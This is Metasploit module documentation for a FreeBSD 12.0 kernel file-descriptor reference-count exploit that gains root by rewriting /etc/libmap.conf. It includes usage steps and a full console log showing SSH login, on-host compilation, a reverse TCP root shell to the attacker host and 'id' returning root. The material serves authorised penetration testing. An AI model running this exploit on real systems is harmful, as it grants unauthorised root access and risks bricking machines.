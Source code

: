 ## Vulnerable Application

FreeBSD 12.0 (and some 11) attempts to handle the case where the receiving process does
not provide a sufficiently large buffer for an incoming control message
containing rights.  In particular, to avoid leaking the corresponding
descriptors into the receiving process' descriptor table, the kernel handles
the truncation case by closing descriptors referenced by the discarded
message.

The code which performs this operation failed to release a reference obtained
on the file corresponding to a received right.  This bug can be used to cause
the reference counter to wrap around and free the file structure.

Exploitation results in write access to `/etc/libmap.conf` where a new dynamic
object is added which includes our payload.

A very detailed write-up is available at [secfault-security.com](https://secfault-security.com/blog/FreeBSD-SA-1902.fd.html)

### Warnings

This exploit is tempermental, often resulting in a system reboot.
Successful exploitation will alter `/etc/libmap.conf`.  If the added library
`libno_ex.so.1.0` is deleted, the system will brick.  Attempts to restore
`/etc/libmap.conf` automatically fail.  Manually reverting the
file from the root prompt should be successful though.

### Warnings 2

Canceling execution of this exploit may case a system reboot,
or cause the system to brick.  If the system reboots, artifacts will
remain on disk and require manual cleanup.

### Warnings 3

This exploit can take between 20 and 60 minutes to exploit, with no feedback.
If the system reboots due to a failed exploitation attempt, no notification is seen
within metasploit until the 60 minute timeout window happens.

## Verification Steps

  1. Start msfconsole
  2. Get a user shell
  3. Do: ```use exploit/freebsd/local/freebsd_fd_ref_count_priv_esc```
  4. Do: ```set session [#]```
  5. Do: ```run```
  6. You should get a root shell between 20 and 60 minutes later.

## Options

  **Forks**

  Set the number of forks to use.  May need to be adjusted based on system RAM.  Default is `3`

  **Threads**

  Set the number of threads per fork.  May need to be adjusted based on system RAM.  Default is `400`

## Scenarios

### FreeBSD 12.0 r341666 with kern.maxfiles 70000

  Exploitation with 70,000 `maxfiles` seems to be 100% with 1gig of ram in a virtual machine.

  ```
resource (freebsd.rb)> use auxiliary/scanner/ssh/ssh_login
resource (freebsd.rb)> set username user
username => user
resource (freebsd.rb)> set password user
password => user
resource (freebsd.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (freebsd.rb)> exploit
[+] 2.2.2.2:22 - Success: 'user:user' ''
[*] Command shell session 1 opened (1.1.1.1:42135 -> 2.2.2.2:22) at 2020-01-09 19:41:17 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (freebsd.rb)> use exploit/freebsd/local/freebsd_fd_ref_count_priv_esc
resource (freebsd.rb)> set verbose true
verbose => true
resource (freebsd.rb)> set session 1
session => 1
resource (freebsd.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (freebsd.rb)> check
[+] cc is installed
[+] FreeBSD release 12.0-RELEASE rev r341666 with maxfiles 70000 is vulnerable
[+] The target is vulnerable.
resource (freebsd.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] cc is installed
[+] FreeBSD release 12.0-RELEASE rev r341666 with maxfiles 70000 is vulnerable
[*] Stored /etc/libmap.conf in loot.  If session cleanup is unsuccessful, system will brick. Use this to unbrick
[*] Writing '/tmp/.4arU1qp' (230 bytes) ...
[*] Max line length is 131073
[*] Writing 230 bytes in 1 chunks of 656 bytes (octal-encoded), using printf
[+] cc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.BtNP7k.c' (13201 bytes) ...
[*] Max line length is 131073
[*] Writing 13201 bytes in 1 chunks of 47760 bytes (octal-encoded), using printf
[*] Writing '/tmp/.aauI7Ac.c' (231 bytes) ...
[*] Max line length is 131073
[*] Writing 231 bytes in 1 chunks of 836 bytes (octal-encoded), using printf
[*] Writing '/tmp/.yknTtnS8.sh' (92 bytes) ...
[*] Max line length is 131073
[*] Writing 92 bytes in 1 chunks of 335 bytes (octal-encoded), using printf
[*] Launching exploit... May take 50-60 minutes. Start time: 2020-01-09 19:41:39 -0500
[*] [!] write_to_file: Could not stick thread to core: Invalid argument
[*] Command shell session 2 opened (1.1.1.1:4444 -> 2.2.2.2:25496) at 2020-01-09 20:01:02 -0500
[+] Deleted /tmp/.4arU1qp
[+] Deleted /tmp/.BtNP7k
[!] Tried to delete /tmp/.aauI7Ac, unknown result
[+] Deleted /tmp/.yknTtnS8.sh
[*] Performing Cleanup
[-] *************************************************
[+] Automated attempt to not brick the system failed.
[+] Please run `cp /tmp/libmap.conf /etc/libmap.conf`.
[-] *************************************************

id
uid=0(root) gid=0(wheel) groups=0(wheel)
cp /tmp/libmap.conf /etc/libmap.conf
uname -a
FreeBSD freebsd 12.0-RELEASE FreeBSD 12.0-RELEASE r341666 GENERIC  amd64
sysctl kern.maxfiles
kern.maxfiles: 70000
  ```
